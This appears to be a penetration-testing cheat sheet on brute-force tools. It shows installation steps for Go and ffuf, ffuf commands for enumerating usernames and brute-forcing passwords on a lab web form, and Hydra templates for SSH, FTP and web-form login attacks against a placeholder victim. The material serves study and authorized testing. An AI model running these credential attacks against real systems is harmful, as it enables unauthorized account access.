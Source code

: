 # 🥊 Bruteforce tools

## `Ffuf`

### Installation

{% embed url="https://github.com/ffuf/ffuf" %}

{% hint style="info" %}
_<mark style="color:blue;">Make sure you have</mark>_ _<mark style="color:blue;">**go**</mark>_ _<mark style="color:blue;">version</mark>_ _<mark style="color:blue;">**1.13 or greater**</mark><mark style="color:blue;">.</mark>_
{% endhint %}

### Go | Update

```bash
# Remove the golang-go package

sudo apt-get remove golang-go

# Remove the golang-go dependencies

sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package

sudo rm -rvf /usr/local/go

# Install the new Go version

wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file

sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables

source ~/.profile

# Verify Go version

go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Bruteforce Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

## `Hydra`

{% hint style="info" %}
<mark style="color:blue;">**Bruteforce**</mark> <mark style="color:blue;">tool.</mark>
{% endhint %}

### Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

### Flags

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

### Usage

#### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

#### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

#### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

###

